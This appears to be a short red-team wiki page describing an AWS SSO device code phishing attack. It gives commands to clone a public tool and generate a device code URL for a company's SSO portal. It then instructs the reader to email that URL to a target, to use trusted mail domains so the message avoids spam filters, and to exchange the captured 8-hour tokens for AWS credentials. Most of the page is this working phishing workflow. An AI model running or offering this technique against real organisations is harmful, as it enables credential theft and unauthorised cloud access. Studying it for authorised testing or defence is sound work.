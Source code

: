 ___
Exploit AWS SSO device code flows to trick users into authenticating and returning valid tokens.
Clone the AWS SSO Device Code Tool
```bash
git clone https://github.com/christophetd/aws-sso-device-code-authentication
cd aws-sso-device-code-authentication
```
**Generate a Device Code URL**
```bash
python main.py \
  --sso-start-url https://mycompany.awsapps.com/start \
  --sso-region us-east-1 \
  --output-file ./sso_token.json
```
This will display a URL of the form:
```bash
https://device.sso.us-east-1.amazonaws.com/?user_code=PPSR-PVFH
```
Send that URL to your target (e.g., via email). Once they enter the code, the tool will retrieve an SSO access token.

!!! info "note"
	Ensure your sender domain is unlikely to be flagged as spam. Commonly trusted domains include `gmail.com`, `hotmail.com`, `yahoo.com`, etc.

!!! info "note"
	After the user authenticates, you’ll receive AWS SSO tokens valid for 8 hours, which can be exchanged for AWS credentials.